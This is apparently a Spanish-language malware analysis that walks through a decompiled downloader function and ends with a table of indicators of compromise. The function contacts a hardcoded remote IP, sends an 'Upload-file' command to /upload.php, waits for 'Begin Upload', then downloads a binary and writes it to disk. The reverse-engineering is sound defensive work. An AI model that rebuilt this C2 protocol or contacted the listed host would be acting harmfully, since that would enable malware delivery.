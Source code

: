 lea eax, [ebp+local_810]
mov ecx, eax
call FUN_0040103E

→ Guarda la IP remota "69.25.50.10" o su equivalente en una estructura.
2. InternetOpenA y InternetConnectA

InternetOpenA("Mozilla/4.0...", ...)
InternetConnectA("69.25.50.10", puerto=80, ...)

→ Establece una sesión de WinINet con user-agent "Mozilla/4.0...".
3. Petición con HttpOpenRequestA

HttpOpenRequestA("POST", "/upload.php", ...)

→ Prepara una petición POST a /upload.php.
4. Comando: “Upload-file...”

sprintf(buf, "Upload-file%s******%d", filename, chunk_size);
HttpSendRequestA(...);

→ Envía un comando "Upload-file<nombre>******<tamaño>".
5. Respuesta del servidor

FUN_0040107C(...) → lee cuerpo HTML entre `<head>` y `</head>`
FUN_00401049(...) → localiza las cabeceras

→ Si la respuesta contiene "Begin Upload", el malware procede.
6. Lectura del tamaño del archivo

atoi(buf) → tamaño = S
operator_new(S + 1)

→ Reserva memoria dinámica con new.
7. Descarga por bloques

InternetReadFile(..., chunk_size)

→ Usa InternetReadFile en un bucle hasta descargar todo el contenido remoto.
8. Guardar a disco

fopen(nombre, "wb")
fwrite(buffer, 1, tamaño, file)
fclose(file)

→ Escribe el archivo descargado al disco con el nombre original.
9. Liberación de memoria

operator_delete(buffer)

📦 Conclusión técnica

Esta función convierte al malware en un downloader pasivo: se conecta al servidor "69.25.50.10", le envía un mensaje "Upload-file...", espera una respuesta "Begin Upload" y, si la recibe, descarga y guarda un binario.
🔐 Indicadores IOC
Componente	Valor
IP remota	69.25.50.10
Ruta HTTP	/upload.php
User-Agent	"Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
Comando	"Upload-file%s******%d"
Cabecera de sincronización	"Begin Upload"
Técnica	WinINet + buffer parsing
